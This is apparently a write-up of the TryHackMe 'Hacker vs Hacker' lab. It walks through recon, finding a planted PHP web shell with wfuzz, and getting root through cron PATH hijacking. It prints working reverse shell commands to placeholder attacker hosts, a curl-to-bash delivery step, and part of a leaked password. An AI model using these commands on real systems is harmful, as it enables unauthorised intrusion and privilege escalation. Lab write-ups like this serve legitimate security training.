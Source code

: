 ```yaml
---
title: 'Hacker vs Hacker'
description: "Someone has compromised this server already! Can you get in and evade their countermeasures?"
date: 2024-05-06T23:08:11+02:00
tags: 
    - "tryhackme"
    - "easy"
draft: true
external_url: "https://tryhackme.com/r/room/hackervshacker"
---
```


## Questions
1. What is the user.txt flag?
1. What is the proof.txt flag?

## Reconnaissance

### Nmap
```bash
$ nmap -sC -sV <trgt>

Starting Nmap 7.80 ( https://nmap.org ) at 2024-05-06 23:16 CEST
Nmap scan report for <trgt>
Host is up (0.088s latency).
Not shown: 998 closed ports

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: RecruitSec: Industry Leading Infosec Recruitment

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Nmap showed `SSH` on port `22` and `Apache` on port `80`. Simple.

### Website
Website looked basic enough, it did have a file upload at the bottom for CVs.
![cv_upload.png](/write-up/hacker-vs-hacker/cv_upload.png)

Trying to upload any file display a message from the orginal hacker.
> Hacked! If you dont want me to upload my shell, do better at filtering!

Checking the source of the website will show the following:

```html
Hacked! If you dont want me to upload my shell, do better at filtering!

<!-- seriously, dumb stuff:

$target_dir = "cvs/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);

if (!strpos($target_file, ".pdf")) {
  echo "Only PDF CVs are accepted.";
} else if (file_exists($target_file)) {
  echo "This CV has already been uploaded!";
} else if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
  echo "Success! We will get back to you.";
} else {
  echo "Something went wrong :|";
}

-->
```

Summerized:
- Final file will be in `cvs/`
- Filename must have `.pdf` in them (anywhere is fine)

ezpz.

## Exploitation
So we know this server is compromised, we know how and we know where. As the hacker said, he uploaded his shell. Let's find it.

```bash
$ wfuzz -u http://<trgt>/cvs/FUZZ.pdf.php -w /opt/SecLists/Discovery/Web-Content/common.txt --hc 404,403

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://<trgt>/cvs/FUZZ.pdf.php
Total requests: 4727

=====================================================================
ID           Response   Lines    Word       Chars       Payload 
=====================================================================

000003754:   200        1 L      2 W        18 Ch       "shell"          

Total time: 0
Processed Requests: 4727
Filtered Requests: 4726
Requests/sec.: 0
```

**Boom** got it.

Now we need the parameter name used to execute commands..
```bash
$ wfuzz -u http://<trgt>/cvs/shell.pdf.php?FUZZ=id -w /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt --hl 1

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://<trgt>/cvs/shell.pdf.php?FUZZ=id
Total requests: 6453

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000001164:   200        2 L      5 W        72 Ch       "cmd"

Total time: 0
Processed Requests: 2680
Filtered Requests: 2679
Requests/sec.: 0
```

**Boom²** Success, now we can finally get a foodhold on the system.

## Foothold
Thanks to our fuzzing we know we can execute commands on the server by heading to `http://<trgt>/cvs/shell.pdf.php?cmd=<command>`.
I tried just using a reverse shell but that didn't seem to work. What I can do on the other hand is curl a reverse shell from my machine and pipe it to bash.

```bash
$ cat shell.sh 
bash -i >& /dev/tcp/<atkr>/9001 0>&1
```

We can easily URL encode it using something like [CyberChef](https://gchq.github.io/CyberChef/).
![CyberChef, URL encoding a curl command](/write-up/hacker-vs-hacker/curl_shell.png)

After hosting a http server with `$ python3 -m http.server 9002` I put the encoded payload in the URL, pressed enter and prayed..
```bash
www-data@b2r:/var/www/html$ nc -nvlp 9001
Listening on 0.0.0.0 9001
Connection received on <trgt> 54946
sh: 0: can't access tty; job control turned off
www-data@b2r:/var/www/html/cvs$ _
```
We're in!

## User flag
My first thought was to look in the `/home/` directory to see if we can read anything.
```bash
$ ls -l /home/
total 4
drwxr-xr-x 4 lachlan lachlan 4096 May  5  2022 lachlan
```
'Ello there, we can read and execute in the home directory of `lachlan`.

```bash
www-data@b2r:/home/lachlan$ ls -la
total 36
drwxr-xr-x 4 lachlan lachlan 4096 May  5  2022 .
drwxr-xr-x 3 root    root    4096 May  5  2022 ..
-rw-r--r-- 1 lachlan lachlan  168 May  5  2022 .bash_history
-rw-r--r-- 1 lachlan lachlan  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 lachlan lachlan 3771 Feb 25  2020 .bashrc
drwx------ 2 lachlan lachlan 4096 May  5  2022 .cache
-rw-r--r-- 1 lachlan lachlan  807 Feb 25  2020 .profile
drwxr-xr-x 2 lachlan lachlan 4096 May  5  2022 bin
-rw-r--r-- 1 lachlan lachlan   38 May  5  2022 user.txt

www-data@b2r:/home/lachlan$ cat user.txt
thm{████████████████████████████████}
```
There's the user flag.

## Root flag

```bash
www-data@b2r:/home/lachlan$ cat .bash_history
./cve.sh
./cve-patch.sh
vi /etc/cron.d/persistence
echo -e "dHY5pzmNYoETv7SUaY\n███████████████\n███████████████" | passwd
ls -sf /dev/null /home/lachlan/.bash_history
```

Acording to the history he's:
- Creating a cronjob called `persistence`
- Adding a login to passwd
- Failing to clear the bash history

```bash
www-data@b2r:/home/lachlan$ cat /etc/cron.d/persistence
PATH=/home/lachlan/bin:/bin:/usr/bin
# * * * * * root backup.sh
* * * * * root /bin/sleep 1  && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 11 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 21 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
```

Looks promising, `/home/lachlan/bin` is being set in the `PATH` variable and the `pkill` command used in the cronjob isn't a full path. This means that we could create our own "pkill" binairy inside of `/home/lachlan/bin` and have that run instead.

`www-data` did not have the correct permissions to write to `/home/lachlan/bin/`, I tried to `$ su lachlan` with the credentials from the `.bash_history` file and was successful.

I ran the following command to insert the reverse shell into a file called "pkill" and waited. `echo "bash -c 'bash -i >& /dev/tcp/<atkr>/9002 0>&1'" > bin/pkill; chmod  +x bin/pkill`

```bash
$ nc -nvlp 9002
Listening on 0.0.0.0 9002
Connection received on <trgt> 43462
bash: cannot set terminal process group (1896): Inappropriate ioctl for device
bash: no job control in this shell
root@b2r:~# _
```

Aand we're root.
```bash
root@b2r:~# cat root.txt
thm{████████████████████████████████}
```